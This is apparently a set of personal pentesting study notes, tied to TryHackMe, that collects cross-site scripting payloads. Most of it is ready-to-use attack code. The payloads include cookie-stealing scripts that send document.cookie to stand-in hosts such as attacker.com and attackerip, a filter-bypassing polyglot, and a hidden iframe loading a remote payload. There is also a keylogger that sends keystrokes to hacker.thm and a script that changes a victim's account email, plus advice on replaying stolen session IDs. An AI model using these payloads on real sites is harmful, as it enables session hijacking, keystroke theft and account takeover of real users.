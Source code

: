 
##### Getting cookie
```html
<script>document.location='http://attacker.com/save.php?c='+document.cookie</script>
```


##### Polyglots
A string of text which can escape attributes, tags and bypass filters all in one.  
```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```


##### Content Injection
XSS vulns are often used to deliver client-side attacks as they allow the attacker to redirect the victim's browser to their choosing.  
A stealthier alternative is to inject an invisible I-frame"  
```html
<iframe src=http://attack.com/payload height="0" width="0"></iframe>
```


Can also redirect the victim browser to a client-side attack or to an information gathering script.  
(Need the User-Agent to determine the victim's browser)

##### Stealing Cookies & Session Info
If the web app uses insecure session management, we can use XSS to steal a user's cookies and masquarade as that user within the target website.  
```html
<script>new Image().src="http://attackerip/cool.jpg?output="+document.cookie;</script>
```

  
Once a logged in user visits the affected page, their session data is sent to the attacker's ip ([nc](Tools.md#netcat) listener)
![[cookie_steal.png]]

##### Cookie Editor
Cookie setting and management add-on for Firefox  
  
***Note:** This attack is session-specific. Once we steal the session, we can masquerade as the victim until they log out or their session expires.  
  
We're now able to set our cookie name=value pair to **PHPSESSID=delkcrm4vdkgqcqvkrs7ehlghe  
**
##### Keylogger
```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
	btoa - base64 encode
  
##### Change Email
```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```
